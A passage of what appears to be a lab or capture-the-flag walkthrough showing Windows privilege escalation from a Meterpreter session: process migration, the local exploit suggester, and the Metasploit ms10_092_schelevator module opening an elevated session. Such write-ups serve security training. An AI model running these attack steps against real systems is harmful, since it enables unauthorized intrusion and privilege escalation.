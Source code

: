     ps # list processes

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557386516099_image.png)

*Looking for a process with an x64 and a 1 as that means its interactive and there is more leverage on the things it has the ability to do. None in this case.*

migrate to conhost:

    migrate 1120

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557386626024_image.png)

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557386652787_image.png)

Run “sysinfo” to verify were on a x64 process:

    sysinfo

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557386698860_image.png)

*confirmed x64, background with ctrl+z*
    show options # check for suggester
    run

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557386790787_image.png)

*returns only one that appears to be vulnerable. Save to notes*

Compare notes:

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557386826514_image.png)

*ms10_092_schelevator reported on both architectures. Which should be a stong first to try.*

# Root&Loot
     use exploit/windows/local/ms10_092_schelevator
    show options
    set session 1
    run

 *in this scenairo it actually used a local 172. IP which was not intendted as so the set LHOST 10.10.12.194 was sent again and ran.*

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557387120875_image.png)

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557387142354_image.png)

*session 2 was successfully opened*

    getuid

![](https://paper-attachments.dropbox.com/s_70F45A0969F37A99ED1A657AF2E8D7B314564C871AC1961D0B84F468D38FDF75_1557387206166_image.png)
